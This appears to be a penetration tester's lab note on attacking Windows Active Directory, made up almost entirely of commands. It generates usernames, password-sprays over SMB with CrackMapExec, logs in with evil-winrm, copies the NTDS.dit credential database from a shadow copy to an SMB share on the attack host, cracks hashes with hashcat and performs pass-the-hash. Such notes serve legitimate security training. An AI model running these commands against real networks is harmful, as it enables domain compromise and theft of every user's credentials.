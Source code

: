 
Dump hashes from NTDS.dit file (need local admin rights)

If a computer is domain joined, it will not reference SAM database.


Create valid AD usernames in a txt file

Automated list generator:
Git clone: https://github.com/urbanadventurer/username-anarchy
```shell-session
./username-anarchy -i /home/ltnbob/names.txt 
```

Launch attack with CrackMapExec
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

Connect with Win-RM
```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Check privileges
```shell-session
net localgroup
```

Checking user account privileges including domain
```shell-session
 net user bwilliamson
```

Creating a shadow copy of C:
```shell-session
vssadmin CREATE SHADOW /For=C:
```

Copy NTDS.dit from the VSS
```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Move to SMB share on attack host
```shell-session
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

Easier: Using CrackMapExec to capture NTDS.dit
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

Use hashcat to crack passwords
```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

### Pass-the-Hash
- NTLM authentication protocol

```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

